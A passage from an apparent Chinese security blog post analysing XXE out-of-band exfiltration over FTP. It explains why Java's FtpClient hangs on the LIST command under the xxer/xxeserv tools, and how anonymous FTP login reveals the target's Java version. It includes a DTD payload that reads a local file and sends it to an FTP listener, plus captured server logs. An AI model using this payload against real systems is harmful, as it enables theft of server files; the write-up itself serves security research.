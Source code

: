 可以看到server会向client发送几个指令，包括要求提供用户名密码(数据在此阶段被带出)，切换路径，列出文件等过程。

使用Everything自带的FTP服务功能，通过抓包观察正常的FTP交互流程，大致是这样子的

![1575011384700](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20200507103436.png)

注意到发送LIST指令时会返回150和226，那么在xxer中也尽可能模拟这个过程，但是在实际利用中会发现，当xxer服务端接收到LIST指令时，client与server不再有交互了，处于一个互相等待的过程中，具体的原因见下面分析

`sun.net.ftp.impl.FtpClient`处理`LIST`指令的过程中存在一个bug（可能与模拟的ftpserver没有支持所有指令有关），`FtpClient.openDataConnection()`方法中，

![1573805362144](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20200507103807.png)

当ftpserver收到LIST指令后模拟正常ftp通信返回226代码，然后当前socket进入accept，会创建一个新的Socket，接着通过`java.net.ServerSocket#implAccept()`方法接受socket连接

![1573805487835](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20200507103808.png)

但是此时的address是null，也就是说服务端和客户端此时是没有正常建立新的socket的，于是两端都处在等待状态，客户端就会被挂起。

然而抓包看整个通信过程，client与server的交互与正常的交互是一模一样的，正常ftp服务端收到LIST指令后返回226传输完毕，当前socket会正常关闭，然后等待下一次交互指令，但是在xxer/xxeserv模拟的过程中却会被挂起，这个问题暂时没有解决办法。（passive mode，客户端发送指令使服务端进入被动模式，但没有效果）

如果这个过程是发生在weblogic端并且Java版本较低时，并不影响数据传输，只是会有一个对ftpserver的长连接，但是如果是在本地通过外部实体的方式解析xml文件，同样会被挂在长连接的过程，于是就有可能无法生成相应的payload

网上也有相关问题https://stackoverflow.com/questions/3666124/ftp-connection-hangs-on-list



Tips：如何利用FTP获取目标Java版本

ftp.dtd

```xml
<!ENTITY % file SYSTEM "file:///D:/data.txt">
<!ENTITY % ftp "<!ENTITY &#37; send SYSTEM 'ftp://127.0.0.1:2121/%file;'>">
```

当不指定用户名和密码直接连接FTP时，client默认会以anonymous登录，密码则是client的Java版本，所以可以利用这个方式获取目标服务器的Java版本：

```
info: FTP: recvd 'USER anonymous'
info: FTP: recvd 'PASS Java1.7.0_21@'
info: FTP: recvd 'TYPE I'
info: FTP: recvd 'EPSV ALL'
info: FTP: recvd 'EPSV'
info: FTP: recvd 'EPRT |1|127.0.0.1|54357|'
info: FTP: recvd 'RETR tesdata'
```



#### FTP中特殊字符的问题

##### 情况一

各种特殊字符在特定版本下的情况
